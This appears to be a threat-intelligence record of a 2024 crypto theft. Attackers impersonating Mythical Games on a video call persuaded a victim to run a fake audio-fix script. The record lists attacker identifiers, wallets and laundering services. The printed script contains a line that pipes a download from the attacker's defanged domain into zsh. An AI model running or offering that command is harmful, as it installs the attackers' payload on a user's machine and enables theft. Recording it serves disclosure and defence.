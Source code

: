# A6 via Fake Mythical Games

Date:: February 28th, 2024

Time:: 12:25 UTC – 01:58 UTC, 23:09 UTC

Amount Stolen:: $406,343

Tags:: 🔑 SquidSquad

---


## Details

Had a video call with the exploiters

Was an issue with the sound

Victim ran the suggested fix script provided by the exploiters.

On call were 3 males. 2 didnt speak, one did. Seemed like live interaction (?)

- “John Linden” - @mythicaljohn - 7440942015

- https://calendly.com/john-mythicalgames/30min?month=2025-03

- meet[.]mythicalgames[.]foundation/zoom/join?mn=65185420&pwd=r47BVC

```
system_profiler SPAudioData
softwareupdate --evaluate-products --products audio --agree-to-license
curl -A audio -s https://api.zoom-sdk[.]us/update/drivers/65185420 | zsh
system_profiler SPSoundCardData
softwareupdate --evaluate-products --products soundcard
system_profiler SPSpeechData
softwareupdate --evaluate-products --products speech --agree-to-license
```

## Onchain

- TK3E1NWkehLoBKUWbhjUudxxjN4abYdu7T
- EQAq887cEkvOMBdafawfjl8JqKIsk3DQopMT8q79D7r
- 0x37ef7efda71203f17f26730611bd8eef11f5f8af
- 0xd5944357a065245064a8b8dfc58e789a90dce0f6

- Used Defiway, ChangeNOW, FixedFloat, Symbiosis, OKX Dex, Bridgers from TRON and TON -> ETH




